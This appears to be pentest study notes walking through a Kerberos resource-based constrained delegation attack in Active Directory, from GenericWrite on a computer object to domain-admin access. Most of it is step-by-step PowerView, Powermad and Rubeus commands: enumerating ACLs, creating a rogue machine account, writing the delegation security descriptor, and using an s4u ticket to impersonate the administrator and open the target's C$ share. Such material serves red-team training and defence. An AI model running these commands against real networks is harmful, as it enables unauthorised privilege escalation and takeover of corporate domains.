 # Kerberos - Resource-Based Constrained Delegation (GenericWrite & PowerMad)

## Informations

Constrained delegation works by configuring SPNs on the frontend service under the msDS-AllowedToDelegateTo property.
Configuring constrained delegation also requires the SeEnableDelegationPrivilege privilege on the domain controller, which is typically only enabled for Domain Admins.

With the release of Windows Server 2012, Microsoft introduced resource-based constrained delegation (RBCD), which is meant to remove the requirement of highly elevated access rights like SeEnableDelegationPrivilege from system administrators.
RBCD attack leads to code execution.

This specific vector starts by compromising a domain account that has the GenericWrite access right on a computer account object.
This technique is the only known way of turning GenericWrite on a computer object into code execution.

## Enumeration

1. Enumerate domain computer with powerview :

```PowerShell
PS C:\tools> Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

By default, any authenticated user can add up to ten computer accounts to the domain and they will have SPNs set automatically.
This value is present in the ms-DS-MachineAccountQuota property in the Active Directory domain object.

2. We can enumerate it with powerview.

```PowerShell
Get-DomainObject -Identity dev -Properties ms-DS-MachineAccountQuota
```

Normally, the computer account object is created when a physical computer is joined to the domain.

3. We can simply create the object itself with Powermad powershell script.

```PowerShell
PS C:\tools> . .\powermad.ps1
PS C:\tools> New-MachineAccount -MachineAccount myComputer -Password $(ConvertTo-SecureString 'h4x' -AsPlainText -Force)
PS C:\tools> Get-DomainComputer -Identity myComputer
```

The msDS-AllowdToActOnBehalfOfOtherIdentity property stores the SID as part of a security descriptor in a binary format.
We must convert the SID of our newly-created computer object to the correct format in order to proceed with the attack.

To do this, we must first create a new security descriptor with the correct SID.

4. We can use the RawSecurityDescriptor class to instantiate a SecurityDescriptor Object.

```PowerShell
PS C:\> $sid =Get-DomainComputer -Identity myComputer -Properties objectsid | Select -Expand objectsid
PS C:\> $SD = New-Object Security.AccessControl.RawSecurityDescriptor - ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
```

5. With the SecurityDescriptor object created, we must convert it into a byte array to match the format for the msDS-AllowedToActOnBehalfOfOtherIdentity property.

```PowerShell
PS C:\> $SDbytes = New-Object byte[] ($SD.BinaryLength)
PS C:\> $SD.GetBinaryForm($SDbytes,0)
```

6. Now we can obtain a handle to the computer object and then update properties.

```PowerShell
PS C:\> Get-DomainComputer -Identity devsrv01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

After writing the SecurityDescriptor to the property field, we should verify it.

7. We can do this by reading the binary version of it, then instantiating a SecurityDescriptor object with RawSecurityDescriptor and finally displaying the DACL.

```PowerShell
PS C:\> $RBCDbytes = Get-DomainComputer appsrv01 -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
PS C:\> $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor - ArgumentList $RBCDbytes, 0
PS C:\> $Descriptor.DiscretionaryAcl

PS C:\> ConvertFrom-SID S-1-5-21-3776646582-2086779273-4091361643-2101
```

Now we are ready to launch our attack.

## Launch the Attack

1. Obtaining the hash of the computer account password with Rubeus.

```PowerShell
.\Rubeus.exe hash /password:h4x
```

2. Request a TGT ticket.

```PowerShell
.\Rubeus.exe s4u /user:myComputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/appsrv01.prod.corp1.com /ptt
```

3. Check the success of this attack, dump any loaded keberos tickets

```bash
klsit
```

4. Interact wiht file services on appsrv01 in the context of the administrator domain admin user.

```PowerShell
dir \\appsrv01.prod.corp1.com\c$
```

Our access to appsrv01 is in the context of the administrator domain admin user. 

We can use our CIFS access to obtain code execution on appsrv01, but in the process we will perform a network login instead of an interactive login. 

This means our access will be limited to appsrv01 and cannot directly be used to expand access towards the rest of the domain.